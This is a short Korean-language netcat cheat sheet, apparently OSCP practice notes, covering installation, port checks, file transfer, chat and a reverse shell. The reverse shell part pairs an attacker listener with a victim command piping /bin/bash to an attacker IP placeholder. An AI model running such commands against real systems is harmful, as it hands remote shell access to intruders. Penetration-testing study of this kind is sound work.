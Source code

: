 # Netcat 설치 및 실전 사용법

## 설치

```bash
sudo apt update
sudo apt install netcat-traditional -y
```

- `netcat-openbsd`: 최신 옵션(-e 등 일부 제한), 대부분의 리눅스에서 기본 추천
- `netcat-traditional`: 구버전, -e 옵션 지원(리버스 쉘에 유리)
- 실전에서는 둘 중 하나를 명확히 선택해서 설치해야 함
  - 리버스 쉘 등 OSCP 실습에선 `netcat-traditional`이 더 직관적임
  - 설치 오류 시 위 명령어 중 하나를 선택해서 진행

## 주요 사용법

### 1. 포트 스캔

```bash
nc -vn [타겟IP] [포트번호]
nc -vn 10.10.10.10 8080
```

- `-v`(verbose), `-n`(숫자 IP)

### 2. 리버스 쉘 연결

#### 리스너(공격자)

```bash
nc -lvnp 4444
```

#### 타겟(피해자)

```bash
nc [공격자IP] 4444 -e /bin/bash
# 일부 시스템은 -e 옵션이 막혀있을 수 있음
```

- 리버스 쉘 획득 시 가장 직관적으로 사용

### 3. 파일 전송

#### 송신

```bash
nc [타겟IP] 4444 < 파일명
```

#### 수신

```bash
nc -lvnp 4444 > 파일명
ncat --ssl -lvnp 4444
# --ssl: option enables SSL encryption for the listener.
```

- 권한 상승 후 바이너리 전송 등 실전에서 자주 활용

### 4. 간단한 채팅

#### 서버

```bash
nc -lvnp 1234
```

#### 클라이언트

```bash
nc [서버IP] 1234
```

- 내부 네트워크에서 통신 테스트에 유용

## 팁

- netcat은 단순하지만 강력함. 실전에서는 리버스 쉘, 파일 전송, 포트 스캔에 가장 많이 사용됨
- `ncat`(nmap 패키지 포함)은 netcat의 대체품으로, 옵션이 더 다양함
